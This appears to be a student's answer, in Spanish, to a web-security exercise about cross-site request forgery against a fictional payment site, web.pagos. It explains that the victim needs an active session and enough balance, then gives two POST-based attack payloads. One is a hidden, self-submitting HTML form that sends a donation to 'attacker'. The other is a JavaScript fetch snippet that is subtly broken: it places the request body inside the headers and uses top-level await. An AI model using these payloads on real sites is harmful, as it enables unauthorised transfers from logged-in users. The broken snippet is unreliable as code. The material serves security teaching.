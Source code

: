 Explicad qué condición se tendrá que cumplir por que se efectúen las donaciones de los usuarios que visualicen el mensaje del apartado anterior o hagan click en el botón del apartado a).

La condición fundamental para que las donaciones se efectúen es que el usuario que visita la página (ya sea haciendo clic en el botón o simplemente visualizando el comentario malicioso) esté autenticado en la plataforma web.pagos con una sesión activa. El usuario atacante también deberá contar con un usuario registrado en la plataforma web.pagos.

Si el usuario no está autenticado, la plataforma no podrá asociar la donación a ninguna cuenta y, por lo tanto, no se efectuará la transferencia. 

La víctima también tendrá que tener el saldo suficiente para realizar la transferencia, si no la web arrojaría probablemente un error.


**d)** Si web.pagos modifica la página donate.php para que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “amount” i “receiver” por POST.

Hay dos opciones para ejecutar este ataque

- Con un formulario HTML oculto :

Este formulario se ejecuta con valores por defecto de forma automática

```html
<iframe name="hiddenFrame" style="display:none;"></iframe>
<form action="http://web.pagos/donate.php" method="post" target="hiddenFrame" id="donationForm">
  <input type="hidden" name="amount" value="100">
  <input type="hidden" name="receiver" value="attacker">
</form>
<script>
  document.getElementById("donationForm").submit();
</script>
```

- Con una petición HTML en Javascript

Realiza una petición HTML usando Javascript, introduciendo los datos en el "body" de la petición

```javascript
<script>

const data = {
  "amount" : "100",
  "receiver" : "attacker"
}

const opciones = {
      method: 'POST',
      mode: 'cors',
      headers : {
        body: JSON.stringify(data)
      }
    };

await fetch("http://web.pagos/donate.php", opciones);

</script>

```
